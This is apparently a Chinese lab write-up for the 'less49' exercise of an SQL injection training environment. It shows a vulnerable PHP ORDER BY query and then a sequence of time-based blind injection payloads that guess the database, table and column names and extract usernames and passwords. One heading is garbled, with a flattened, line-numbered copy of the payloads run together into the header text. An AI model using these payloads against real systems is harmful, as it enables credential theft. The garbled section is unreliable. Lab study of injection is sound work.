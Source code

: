 ```yaml
---
title: less49
url: https://www.yuque.com/u29002979/ep2zrx/oz4wh5948tg1ih7y
---
```


```bash
$id=$_GET['sort'];	

$sql = "SELECT * FROM users ORDER BY '$id'";
```

此关的闭合方式为单引号'，还是需要时间盲注去猜解数据\ <a name="qjWYr"></a>

# 注入点检查

`?sort=1'` <a name="ukBAB"></a>

# xxxxxxxxxx21 1拆解数据库名称长度2?sort=1 and if(length(database())=8,sleep(3),0)#3​4猜解数据库名称 5?sort=1 and if(ascii(mid(database(),1,1))<=135,sleep(3),0)--+6​7猜解数据表名称长度8?sort=1 and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))=29,sleep(3),0)#9​10猜解数据表名称11?sort=1 and if(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1)='e',sleep(3),0)--+12​13​14猜解字段名称长度15?sort=1 and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))=20,sleep(3),0)#16​17猜解字段名称18?sort=1 and if(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1)='i',sleep(3),0)--+19​20猜解字段内容21?sort=1 and if(mid((select group_concat(username,0x7e,password) from users),1,1)='D',sleep(3),0)--+bash

```bash
拆解数据库名称长度
?sort=1' and if(length(database())=8,sleep(3),0)--+

猜解数据库名称 
?sort=1' and if(ascii(mid(database(),1,1))<=135,sleep(3),0)--+

猜解数据表名称长度
?sort=1' and if(length((select group_concat(table_name) from information_schema.tables where table_schema=database()))=29,sleep(3),0)--+

猜解数据表名称
?sort=1' and if(mid((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1)='e',sleep(3),0)--+


猜解字段名称长度
?sort=1' and if(length((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))=20,sleep(3),0)#

猜解字段名称
?sort=1' and if(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1)='i',sleep(3),0)--+

猜解字段内容
?sort=1' and if(mid((select group_concat(username,0x7e,password) from users),1,1)='D',sleep(3),0)--+
```
